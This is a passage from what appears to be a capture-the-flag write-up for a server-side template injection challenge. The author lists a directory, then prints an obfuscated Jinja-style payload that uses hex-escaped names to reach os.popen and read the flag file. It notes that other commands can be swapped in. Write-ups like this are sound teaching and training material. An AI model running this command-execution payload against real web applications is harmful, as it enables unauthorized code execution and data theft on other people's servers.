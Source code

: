 This payload turned out to be fairly simple and easily modifiable for later payloads. To modify I would
just need to replace ls with some other command.

![ls](/assets/grabCON/bad4.png)
<figcaption align=center><b>Figure 16-4: SSTI Listing Directory Contents</b></figcaption>
&nbsp;

Excellent, now we know where the flag name is and the name of the file. I followed up by submitting the following
command.

```
{.{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('cat flag*')['read']()}.}
```
